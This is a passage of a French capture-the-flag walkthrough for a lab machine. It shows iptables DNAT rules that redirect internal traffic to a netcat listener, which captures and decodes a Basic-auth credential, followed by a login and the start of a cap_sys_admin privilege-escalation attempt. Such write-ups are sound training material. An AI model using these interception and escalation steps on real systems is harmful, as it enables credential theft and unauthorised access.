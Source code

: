 ```console
DROP       all  --  anywhere             anywhere            
RETURN     all  --  anywhere             anywhere            

Chain DOCKER-USER (1 references)
target     prot opt source               destination         
RETURN     all  --  anywhere             anywhere
```

Mon objectif est donc d'utiliser `iptables` pour forwarder les paquets à destination du port 81 vers un port que j'aurais mis en écoute sur la machine (8181, qui ne nécessite pas de droits root).

J'ai fouillé un peu sur Internet et utilisé les commandes suivantes :

```console
$ /usr/sbin/xtables-nft-multi iptables -A FORWARD -p tcp -d 172.17.0.1 --dport 81 -j ACCEPT
$ /usr/sbin/xtables-nft-multi iptables -A PREROUTING -t nat -i docker0 -p tcp --dport 81 -j DNAT --to 172.17.0.1:8181
```

Je ne suis pas sûr que la première commande soit nécessaire ici mais la seconde se charge de faire la redirection pour l'interface réseau du Docker. Dans le doute j'ai aussi appliqué la redirection pour chaque couple interface - adresse IP locale.

Finalement ça a frappé à la porte :

```console
www-data@morpheus:/var/www/html$ nc -l -p 8181 -v
nc: getnameinfo: Temporary failure in name resolution
nc: getnameinfo: Temporary failure in name resolution
GET / HTTP/1.1
Host: 172.17.0.1:81
User-Agent: Go-http-client/1.1
Authorization: Basic Y3lwaGVyOmNhY2hlLXByb3N5LXByb2NlZWRzLWNsdWUtZXhwaWF0ZS1hbW1vLXB1Z2lsaXN0
Accept-Encoding: gzip
```

Le base64 de l'auth basic se décode en :

`cypher:cache-prosy-proceeds-clue-expiate-ammo-pugilist`

C'est clair que *rockyou* n'aurait pas cassé ça ! Le mot de passe permet de se connecter avec le compte `cypher` et du coup d'être enfin membre du groupe `humans` (youpi) !

Un flag est dans le dossier de l'utilisateur :

```console
cypher@morpheus:~$ cat FLAG.txt 
You've clearly gained access as user Cypher.

Can you find a way to get to root?
```

Je pensais que la capability `cap_sys_admin` sur `/usr/bin/python3-9` me permettrait de faire un setuid 0 et d'obtenir un shell, mais d'après la manpage, ce qui ressort c'est surtout la possibilité de pouvoir monter / démonter des systèmes de fichier.

J'ai trouvé ce post *StackOverflow* : [unix - How do I mount a filesystem using Python?](https://stackoverflow.com/questions/1667257/how-do-i-mount-a-filesystem-using-python/29156997#29156997) Il indique comment monter un FS en Python.
